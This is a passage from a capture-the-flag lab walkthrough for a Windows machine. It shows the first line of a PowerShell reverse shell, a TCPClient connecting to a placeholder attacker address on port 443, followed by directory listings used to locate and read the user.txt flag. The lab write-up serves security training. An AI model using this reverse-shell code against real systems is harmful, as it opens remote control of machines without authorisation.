 A good first line for a PowerShell reverse shell is:
```
$client=New-Object System.Net.Sockets.TCPClient("your.vpn.ip.addr",443);
...
```

### Finding the user.txt flag

This is as simple as navigating to the Desktop and printing out the flag:
```
# cd ~
# ls


    Directory: C:\Users\sql_svc


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-r---        1/20/2020   5:01 AM                3D Objects                                                            
d-r---        1/20/2020   5:01 AM                Contacts                                                              
d-r---        1/20/2020   5:42 AM                Desktop                                                               
d-r---        1/20/2020   5:01 AM                Documents                                                             
d-r---        1/20/2020   5:01 AM                Downloads                                                             
d-r---        1/20/2020   5:01 AM                Favorites                                                             
d-r---        1/20/2020   5:01 AM                Links                                                                 
d-r---        1/20/2020   5:01 AM                Music                                                                 
d-r---        1/20/2020   5:01 AM                Pictures                                                              
d-r---        1/20/2020   5:01 AM                Saved Games                                                           
d-r---        1/20/2020   5:01 AM                Searches                                                              
d-r---        1/20/2020   5:01 AM                Videos            

# cd Desktop
# ls


    Directory: C:\Users\sql_svc\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---        2/25/2020   6:37 AM             32 user.txt                                                              


# cat user.txt
...
```
